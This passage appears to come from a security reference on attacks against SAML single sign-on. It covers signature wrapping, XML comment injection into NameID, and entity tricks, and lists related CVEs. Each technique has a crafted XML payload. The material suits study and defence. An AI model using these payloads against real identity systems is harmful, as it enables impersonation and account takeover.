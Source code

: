 ```xml
<SAMLResponse>
  <FA ID="evil">
      <Subject>Attacker</Subject>
  </FA>
  <LA ID="legitimate">
      <Subject>Legitimate User</Subject>
      <LAS>
         <Reference Reference URI="legitimate">
         </Reference>
      </LAS>
  </LA>
</SAMLResponse>
```

In the Github Enterprise vulnerability, this request would verify and create a sessions for `Attacker` instead of `Legitimate User`, even if `FA` is not signed.


### XML Comment Handling

A threat actor who already has authenticated access into a SSO system can authenticate as another user without that individual’s SSO password. This [vulnerability](https://www.bleepstatic.com/images/news/u/986406/attacks/Vulnerabilities/SAML-flaw.png) has multiple CVE in the following libraries and products.

- OneLogin - python-saml - CVE-2017-11427
- OneLogin - ruby-saml - CVE-2017-11428
- Clever - saml2-js - CVE-2017-11429
- OmniAuth-SAML - CVE-2017-11430
- Shibboleth - CVE-2018-0489
- Duo Network Gateway - CVE-2018-7340

Researchers have noticed that if an attacker inserts a comment inside the username field in such a way that it breaks the username, the attacker might gain access to a legitimate user's account.

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```
Where `user@user.com` is the first part of the username, and `.evil.com` is the second.


### XML External Entity

An alternative exploitation would use `XML entities` to bypass the signature verification, since the content will not change, except during XML parsing.

In the following example:
- `&s;` will resolve to the string `"s"`
- `&f1;` will resolve to the string `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
```